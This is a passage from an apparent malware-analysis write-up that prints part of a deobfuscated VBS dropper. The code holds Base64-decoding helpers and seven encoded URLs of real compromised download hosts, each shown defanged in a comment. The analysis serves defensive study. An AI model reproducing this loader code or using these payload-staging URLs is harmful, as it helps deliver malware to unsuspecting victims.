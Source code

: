 We successfully exported the VBS! It's all on one line initially, but once we clean it up we can get some findings. The first half of the script is below, and it contains some overhead code and the URLs needed for downloading code.

```vb
rSIPPswjwCtKoZy=1::
on error resume next:
Set FSO = CreateObject("Scripting.FileSystemObject")::
Function Base64Decode(ByVal vCode):    
With CreateObject("Msxml2.DOMDocument.3.0").CreateElement("base64"):        
    .dataType = "bin.base64":        
    .text = vCode:        
    Base64Decode = Stream_BinaryToString(.nodeTypedValue):    
End With:
End Function::

Function Stream_BinaryToString(Binary):    
With CreateObject("ADODB.Stream"):        
    .Type = 1:        
    .Open:        
    .Write 
    Binary:        
    .Position = 0:        
    .Type = 2:        
    .CharSet = "utf-8":        
    Stream_BinaryToString = .ReadText:    
End With:
End Function::

Dim JOCItJMMrs(7):::
JOCItJMMrs(0) = "aHR0cDovL2Z0cC5jaXBsYWZlLmNvbS5ici9BTFQvM3dkQllKZXBSVi8="::
' hxxp://ftp.ciplafe.com[.]br/ALT/3wdBYJepRV/

JOCItJMMrs(1) = "aHR0cHM6Ly9iZW5jZXZlbmRlZ2hhei5odS93cC1pbmNsdWRlcy85MHZsc1lXNUpJalov"::
' hxxps://bencevendeghaz[.]hu/wp-includes/90vlsYW5JIjZ/

JOCItJMMrs(2) = "aHR0cDovL2V6bmV0Yi5zeW5vbG9neS5tZS9AZWFEaXIvd2cyQnFhV0ZSWmIxRy8="::
' hxxp://eznetb.synology[.]me/@eaDir/wg2BqaWFRZb1G/

JOCItJMMrs(3) = "aHR0cHM6Ly93d3cucmVuZWV0dGVuLm5sL2NvbnRhY3QtZm9ybXVsaWVyL3R2ekFUbkltRk1OZjIwcmM3Lw=="::
' hxxps://www.reneetten[.]nl/contact-formulier/tvzATnImFMNf20rc7/

JOCItJMMrs(4) = "aHR0cDovL2Rhcmtzd29yZC5ubC9hd3N0YXRzL1pxVm5VNW9sLw=="::
' hxxp://darksword[.]nl/awstats/ZqVnU5ol/

JOCItJMMrs(5) = "aHR0cDovL2RhY2VudGVjMi5sYXllcmVkc2VydmVyLmNvbS9zcGVlZHRlc3QvV2RKelFSRTlHaHZzLw=="::
' hxxp://dacentec2.layeredserver[.]com/speedtest/WdJzQRE9Ghvs/

JOCItJMMrs(6) = "aHR0cDovL3ZpcC1jbGluaWMucmF6cmFib3RrYS5ieS9hYm91dF9jZW50ZXIvTE10QlRjTEgwcEgxb1BoaTkv":::
' hxxp://vip-clinic.razrabotka[.]by/about_center/LMtBTcLH0pH1oPhi9/
```
{: file='VEuIqlISMa.vbs'}
